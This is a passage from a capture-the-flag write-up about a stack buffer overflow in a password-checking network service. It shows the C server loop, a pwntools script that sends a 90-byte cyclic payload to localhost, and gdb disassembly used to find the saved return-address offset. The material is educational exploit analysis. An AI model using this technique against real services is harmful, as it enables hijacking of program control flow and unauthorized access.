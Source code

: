 ```c

  while (1) {
    int client_fd = negchke(accept(ssock, NULL, NULL), "unable to accept");
    pid_t pid = negchke(fork(), "unable to fork");
    if (pid == 0) {
      close(ssock);
      negchke(dup2(client_fd, 0), "unable to dup2");
      negchke(dup2(client_fd, 1), "unable to dup2");
      close(client_fd);
      negchke(execl("/proc/self/exe", "reexec", NULL), "unable to reexec");
      return 0;
    }
    close(client_fd);
  }
}
```

In short, our service compares the password we enter with the real password read from the file, and if the password is correct it gives us the flag. I wonder if there's a way to skip that require_auth() function... Wait, are you sure that you really want to read 90 characters on a 50 characters buffer if the user supply a wrong password length? I thought we were here to learn secure coding, but an attacker can easily control the saved RIP and control the program flow!

# Analyzing the vulnerability

The following python script will send 90 characters to the service.
```python
from pwn import *

host = 'localhost'
port = 1514

conn = remote(host, port)
payload = cyclic(90)
conn.recvuntil('password: ')
conn.sendline('55')
raw_input()
conn.send(payload)
print conn.recv(4000)
```

To understand how many characters we have to push before the saved RIP, we're gonna need gdb. We will use it to connect to the service just after we send the payload to analyze the stack just before the check_password_correct() function returns:

    $ ps -a | grep exe
    8214 pts/1    00:00:00 exe
    $ sudo gdb attach 8214
    gdb-peda$ disas check_password_correct 
    Dump of assembler code for function check_password_correct:
    0x00007f4713575ed2 <+0>: sub    rsp,0x58
    [...]
    0x00007f4713575fa8 <+214>: call   0x7f4713575c80 <strcmp@plt>
    0x00007f4713575fad <+219>: test   eax,eax
    0x00007f4713575faf <+221>: sete   al
    0x00007f4713575fb2 <+224>: movzx  eax,al
    0x00007f4713575fb5 <+227>: add    rsp,0x58
    0x00007f4713575fb9 <+231>: ret
    
